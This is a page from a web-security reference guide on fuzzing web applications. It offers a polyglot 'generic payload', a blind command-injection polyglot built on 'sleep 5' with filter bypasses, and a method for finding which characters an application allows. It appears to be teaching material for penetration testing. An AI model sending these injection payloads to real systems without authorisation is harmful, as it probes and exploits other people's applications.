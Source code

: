 Generic Payload

Copy

```
|:<u><?=-->"\"1'\'a`\`/../]${{<%[%'"}}%s)&gt;%0d%0a%C0%8a%3Cļ👨‍💻A
%00\
```

Here is another specifically for **blind command injection** that tries to work in as many different contexts as possible with filter bypasses. If the application waits for any multiple of 5 seconds, it has likely worked and you can try more targetted payloads ([url-encoded](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=LyokKHNsZWVwIDUpYHNsZWVwIDVgYCovLXNsZWVwKDUpLScvKiQoc2xlZXAgNSlgc2xlZXAgNWAgIyovLXNsZWVwKDUpfHwnInx8c2xlZXAoNSl8fCIvKmAqLwpzbGVlcCA1), [JSON](https://gchq.github.io/CyberChef/#recipe=Escape_string('Special%20chars','Double',true,false,false)&input=LyokKHNsZWVwIDUpYHNsZWVwIDVgYCovLXNsZWVwKDUpLScvKiQoc2xlZXAgNSlgc2xlZXAgNWAgIyovLXNsZWVwKDUpfHwnInx8c2xlZXAoNSl8fCIvKmAqLwpzbGVlcCA1)):

Blind Command Injection

Copy

```
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
sleep 5
```

For less attack-focussed fuzzing it is sometimes useful to find **what characters are allowed** to give you ideas on possible bypasses. Python's `string.printable` variable contains all printable ASCII characters. You can input this string and see if anything is blocked. If you only get a simple "error" message, you can use binary search to remove half of the payload and see what character causes the error (keep in mind that there may be multiple) ([url-encoded](https://gchq.github.io/CyberChef/#recipe=Unescape_string()URL_Encode(true)&input=MDEyMzQ1Njc4OWFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSktMTU5PUFFSU1RVVldYWVohIiMkJSZcJygpKissLS4vOjs8PT4/QFtcXF1eX2B7fH1%2BIFx0XG5cclx4MGJceDBj), [JSON](https://gchq.github.io/CyberChef/#recipe=Unescape_string()Escape_string('Special%20chars','Double',true,false,false)&input=MDEyMzQ1Njc4OWFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSktMTU5PUFFSU1RVVldYWVohIiMkJSZcJygpKissLS4vOjs8PT4/QFtcXF1eX2B7fH1%2BIFx0XG5cclx4MGJceDBj)):

Copy

```
>>> import string
>>> string.printable
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
```

---

## **Client-Side**

Attacks on the browser, often involving the victim landing on an attacker's site

[Cross-Site Scripting (XSS)](https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss)

[CSS Injection](https://book.jorianwoltjer.com/web/client-side/css-injection)
